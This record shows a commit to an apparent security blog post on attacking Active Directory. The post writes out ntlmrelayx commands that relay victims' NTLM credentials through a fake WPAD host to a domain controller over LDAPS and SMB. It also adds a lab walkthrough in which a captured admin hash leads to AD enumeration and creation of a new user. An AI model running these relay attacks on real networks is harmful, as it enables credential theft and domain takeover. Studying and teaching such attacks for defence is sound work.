

Before and after one commit to sofblocks/sofblocks.github.io, a Jekyll site: the page built from _posts/blog/2020-07-07-attackingad.md, in a window 1280 px wide and 1400 px high, scrolled down 7911 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Attack more

````diff
--- a/_posts/blog/2020-07-07-attackingad.md
+++ b/_posts/blog/2020-07-07-attackingad.md
@@ -165,10 +165,23 @@ Mim6 tool will be used to spoof the DNS so we will need another tool to serve WP
 For this we will use a tool called ntlmrelayx which is part of the impacket Python library. The tool will also be used to relay the victims credentials to other servers on the network.
 
 ```yml
-> ntlmrelayx.py -6 -t ldaps://192.168.159.144 -wh fakewpad.sofblocks.com -l readme
+> ntlmrelayx.py -6 -t ldaps://192.168.159.144 -wh fakewpad.sofblocks.com -l juicy
 
 > ntlmrelayx.py -6 -t smb://192.168.159.144 -wh fakewpad.sofblocks.com -t -l readme
 ```
+### Attack
+
+A user with admin privileges logs into one of the workstations within the spoofed network. In a couple of minutes, ntlmnrelayx tool captures the admin hash and relays them to the domain controller and begins to attack.
+
+![upload-image]({{ "/assets/imgs/notes/ldaps.png" | relative_url }})
+
+It further attempts to enumerate active directory and creates a new user.
+
+![upload-image]({{ "/assets/imgs/notes/attack.png" | relative_url }})
+
+We can confirm that the user has been added in active directory.
+
+![upload-image]({{ "/assets/imgs/notes/user.png" | relative_url }})
 
 ### Mitigations
 
````
Also changed, not shown: assets/imgs/notes/attack.png (added), assets/imgs/notes/dusers.png (added), assets/imgs/notes/ldaps.png (added), assets/imgs/notes/user.png (added).
